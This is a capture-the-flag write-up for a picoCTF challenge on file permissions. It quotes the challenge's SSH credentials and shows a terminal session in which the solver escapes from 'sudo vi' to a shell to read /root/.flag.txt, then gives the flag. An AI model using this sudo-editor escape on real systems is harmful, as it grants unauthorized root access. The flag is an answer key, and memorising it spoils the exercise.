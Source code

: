 
Can you read files in the root file?

The system admin has provisioned an account for you on the main server:`ssh -p 51329 picoplayer@saturn.picoctf.net`Password: `j4ks-9nxB-`Can you login and read the root file?


What permissions do you have?


**Solución 1**

```

ivanesco-picoctf@webshell:~$ ssh -p 51329 picoplayer@saturn.picoctf.net
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sudo vi

:! cat /root/.flag.txt

picoCTF{uS1ng_v1m_3dit0r_021d10ab}

```



## Respuesta: **picoCTF{uS1ng_v1m_3dit0r_021d10ab}**


